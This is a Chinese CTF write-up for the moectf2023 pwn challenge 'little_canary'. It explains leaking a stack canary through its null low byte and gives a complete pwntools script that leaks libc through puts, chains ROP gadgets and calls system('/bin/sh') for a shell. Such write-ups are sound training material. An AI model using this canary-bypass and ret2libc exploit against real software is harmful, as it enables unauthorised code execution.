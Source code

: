 
## little_canary

金丝雀数以b'\x00'结束，64位中为8字节。

IDA中的搜索标志：查找___stack_chk_fail函数，例如：

![image-20230821181939465](./moectf2023-pwn-wp.assets/image-20230821181939465.png)

显然var_8，即与rbp偏移量为8的地方为Canary。利用Canary以b'\x00'结束的特点，读取Canary。

先确定Canary与buf的距离padding，然后发送padding + 1个字符的数据，可以正好覆盖Canary的低位b'\x00'，不然字符串会被截断。注意使用sh.sendline(padding * b'a')时实际上发送的最后带个\n，刚好满足条件，最后接收时将结果减去一个0xa（\n的十六进制ascii码）就拿到了Canary。

然后构造第二个payload = padding * b'a' + Canary + 8 * b'a' + 返回地址。

搜索IDA没有发现system和binsh字符串，则要通过libc获取地址。

exp:

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 33991)
pwn = ELF(parent_path + "pwn")

pop_rdi = 0x401343
main = pwn.symbols['main']
puts_plt = pwn.plt['puts']
puts_got = pwn.got['puts']
pad = b'a' * 0x48  # padding = 0x48
sh.sendline(pad)

# 获取canary
sleep(2)
sh.recvuntil(b'a' * 0x48)
canary = u64(sh.recv(8)) - 0xa # 减去\n的ascii 0xa
print(hex(canary))

# 下面的用到了libc，返回到main函数重新执行
pad = b'a' * 0x48 + p64(canary) + p64(0x1) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
sh.recv()
sh.sendline(pad)
puts_addr = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
system_addr = puts_addr - 0x32190  # 查询libc
binsh_addr = puts_addr + 0x13019d
sleep(2)
sh.sendline(b'0') # 跳过第一个输入
sleep(2)

# 将system函数放到puts函数的返回地址，否则程序异常终止
pad = b'a' * 0x48 + p64(canary) + p64(0x1) + p64(pop_rdi) + p64(binsh_addr) + p64(puts_addr) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
sh.sendline(pad)
sh.interactive()
```
